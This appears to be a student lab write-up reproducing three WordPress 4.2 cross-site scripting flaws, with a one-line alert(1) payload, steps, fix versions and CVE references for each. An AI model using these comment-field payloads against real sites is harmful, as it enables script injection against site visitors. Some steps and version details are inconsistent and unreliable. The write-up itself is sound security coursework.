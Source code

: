 # CyberSecurity-Week7

Time spent: 8 hours spent in total

Objective: Search, Retrieve, Process, Recreate, and document 3 vulnerability on this version of WordPress

Version of WordPress Tested: 4.2

Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
Hover over the posted comment.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8133

[Link 2] Reference: https://core.trac.wordpress.org/changeset/33549

[Link 3] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://imgur.com/a/uaj7O

Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress 3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8358

[Link 2] Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://imgur.com/a/oHP7b

Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
Click on the button.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8489

[Link 2] Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8

[Link 4] Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e

[Link 5] Reference: http://avlidienbrunn.com/wp_some_loader.php

[Link 6] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://imgur.com/a/7gK3e
